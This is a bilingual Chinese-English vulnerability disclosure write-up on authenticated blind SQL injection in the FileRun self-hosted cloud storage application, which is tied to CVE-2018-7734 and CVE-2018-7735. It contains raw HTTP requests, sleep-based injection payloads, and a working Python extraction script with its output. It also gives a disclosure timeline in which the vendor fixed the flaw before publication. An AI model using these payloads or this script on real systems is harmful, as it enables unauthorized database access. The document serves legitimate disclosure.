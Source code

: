 ```yaml
---
layout: post
title: Blind SQL Injection Vulnerability in FileRun<=2017.09.25
category: writeup
tags: bug CVE
description:
---
```

0x00 前言
----
0x00 Preface
----
在内部分享中需要用到私有的云盘服务,一番寻找之后发现FileRun是个不错的应用程序.FileRun允许我们自己搭建云存储，方便我们的照片，视频等文件更好的分享和存储.
Sometimes team private file sharing need use file sharing web application.I noticed FileRun is a great application,This application allows us to access our files anywhere through self-hosted secure cloud storage.



----------



0x01 漏洞发现
----
0x01 How To Find The Vulnerability
----

需要我们以```superuser```登录后台
These vulnerabilitys was found after the authentication. After we logged in as ```superuser```.

SQL1
----
控制面板——>Admin——>用户——>快速搜索,这样将会发送一个POST请求。
go to control panel——>Admin——>user——>search,will generate a POST request to  the server.

```

POST /?module=users&section=cpanel&page=list HTTP/1.1
Host: target.com
Content-Length: 20
Origin: http://target.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
Accept-Language: zh-CN,zh;q=0.9
Cookie: __cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf
Connection: close

limit=50&search=aaaa

```
我注意到search参数容易受到SQL注入的影响,通过传入aaaa' 服务器返回了一个500的响应状态:
I notice that the search parameter might be vulnerable to SQL Injection,I injected a single quote after the value (example:aaaa'),examined the server response error:

![userlist.png][1]

然后构造了基于sleep函数延时的payload:
Use MySQL's delay function sleep () to testing.
```
'xor(sleep(5))or'
```
结果如下

![sleeptime.png][2]

然后使用Blind SQL注入技术来获取select user()数据验证脚本如下：
Here I create a simple script to extract current ```select user()```query result using Boolean-based technique.

```

#!/usr/bin/env python
# -*- coding:utf-8 -*-
#__author__ = 'scanf'
import httplib
import time

#add cookies

headers = {'Content-Type': 'application/x-www-form-urlencoded',
           'User-Agent': 'Googlebot/2.1 (+http://www.googlebot.com/bot.html)',
           'Cookie': '__cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf',
           #'Cookie' : 'input you cookie',
           }
payloads = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.*'
print '[%s] Start to retrive MySQL User:' % time.strftime('%H:%M:%S', time.localtime())
user = ''
for i in range(1, 15):
        for payload in payloads:
            s = "aaaa'xor(if(ascii(mid(user()from(%s)for(1)))=%s,1,0))or'" % (i, ord(payload))
            s = '''limit=50&search=''' + s
            #url = http://target.com/?module=users&section=cpanel&page=list
            conn = httplib.HTTPConnection('target.com', timeout=30)
            conn.request(method='POST', url='/?module=users&section=cpanel&page=list', body=s,headers=headers)
            start_time = time.time()
            html_doc = conn.getresponse().read()
            conn.close()
            print '.',
            if html_doc.find('uid') > 0:
                user += payload
                print '\n[in progress]', user,
                break
print '\n[Done] MySQL user is %s' % user

```
```
[20:39:20] Start to retrive MySQL User:
. . . . . . 
[in progress] f . . . . . . . . . 
[in progress] fi . . . . . . . . . . . . 
[in progress] fil . . . . . 
[in progress] file . . . . . . . . . . . . . . . . . . 
[in progress] filer . . . . . . . . . . . . . . . . . . . . . 
[in progress] fileru . . . . . . . . . . . . . . 
[in progress] filerun . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@ . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@1 . . .
```
### SQL2

控制面板——>元数据——>快速搜索,输入字符串后将发起一个POST请求:
control panel——>Metadata——>search Same as SQL1,will generate a POST request to the server:
```

POST /?module=metadata&section=cpanel&page=list_filetypes HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 36
Cookie: __cfduid=df5ddd49a2303cb2e13b6aa8ece2af7b11513411363; FileRunSID=fa163cd088b68ae20c689826e3a70479; language=chinese
Connection: close

limit=50&search=aaa'xor(sleep(2))or'

```
然后超时后响应:
sleep() function is executed:
![time.png][3]

时间线
----
timeline
----
- 2017.12.18 发现漏洞并联系官方 Discover the vulnerability and contact the official
- 2017.12.22 等待官方处理 Waiting for official processing
- 2018.2.13 官方修复2.13并致谢并允许公开 Officially fixed 2.13 and thanks and open for publication
- 2018.3.6 请求cve漏洞编号 Request cve
- 2018.3.7 获得CVE-2018-7734 CVE-2018-7735 
------
cve information：
- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7734
- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7735





  [1]: https://img.scanfsec.com/img/2017122947195971.png
  [2]: https://img.scanfsec.com/img/2017124115978679.png
  [3]: https://img.scanfsec.com/img/2017123343952588.png
